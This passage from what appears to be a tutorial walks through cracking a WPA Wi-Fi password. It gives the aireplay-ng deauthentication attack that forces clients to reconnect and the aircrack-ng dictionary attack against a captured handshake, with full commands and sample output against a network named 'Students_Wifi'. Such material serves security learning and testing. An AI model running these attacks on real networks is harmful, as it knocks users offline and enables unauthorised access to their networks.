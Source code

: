 By default, the WPA handshake will appear in the top-right corner of the CLI once one is found. Here's an example (notice the handshake next to the timestamp in the top-right corner).

    CH 7 ][ Elapsed: 0 s ][ 2022-11-07 14:31 ] [ WPA handshake: 88:51:00:00:00:00

    BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    88:51:00:00:00:00   -1        0        1    0   7   -1   WPA              Students_Wifi

**Wait.** What if we don't want to or don't have time to wait for a device to connect to the network and _maybe_ capture a handshake? This is where `aireplay-ng` comes into play.

### Let's talk about deauth attacks

To speed up the process of capturing a WPA handshake, we can use a deauth (short for deauthentication) attack. This will trick the access point into rejecting authentication for connected clients, who will then automatically re-connect and give us a handshake to capture. This is done using the `aireplay-ng` tool.

    root@kubuntu:~# aireplay-ng --deauth 0 -a 88:51:00:00:00:00 wlp1s0

This will send a `--deauth` attack to the `-a`ccess point at BSSID `88:51:00:00:00:00` on adapter `wlp1s0`, which looks like this:

    00:00:00 Waiting for beacon frame (BSSID: 88:51:00:00:00:00) on channel 7
    00:00:00 Sending DeAuth to broadcast -- BSSID: [88:51:00:00:00:00]
    00:00:00 Sending DeAuth to broadcast -- BSSID: [88:51:00:00:00:00]
    00:00:00 Sending DeAuth to broadcast -- BSSID: [88:51:00:00:00:00]
    00:00:00 Sending DeAuth to broadcast -- BSSID: [88:51:00:00:00:00]
    00:00:00 Sending DeAuth to broadcast -- BSSID: [88:51:00:00:00:00]
    ...

This should be run at the same time as the original `airodump-ng` command to capture the handshake. If everything goes smoothly, we'll have a WPA handshake to test password lists against.

### Cracking the password

To test passwords against the `OUTPUTFILE-01.cap` file that `airodump-ng` generated, we use the tool `aircrack-ng`. For this, we'll need a password list (I'm using one from [SecLists](https://github.com/danielmiessler/SecLists)), and the `OUTPUTFILE-01.cap` file.

    root@kubuntu:~# aircrack-ng OUTPUTFILE-01.cap -w ./SecLists/Passwords/xato-net-10-million-passwords-1000000.txt

This starts `aircrack-ng` and with some luck, our password will be in the list we're testing.

    Aircrack-ng 1.7

    [00:00:05] 44772/14344393 keys tested (9907.66 k/s)

    Time left: 24 minutes, 3 seconds                           0.31%

    Current passphrase: 080385

    Master Key:     46 6D E0 EF 63 E8 6C E9 C2 CA B1 61 F8 80 9F 6A
                    3A E4 AD 20 5A 61 12 D2 19 2D 7C F5 87 21 24 3A

    Transient Key:  CF CC 76 B1 2C 84 A0 A5 8D 6C 41 F4 81 26 2C 4E
                    FF 23 26 89 7D 7A 26 B8 3C A2 33 E5 06 15 7B 5C
                    D9 49 71 FE 34 0F E7 AD 46 77 A2 9A 14 E7 F2 0C
                    C7 36 A7 3B 45 EF D0 5E 7C 2E 07 11 FD 74 CB 3B
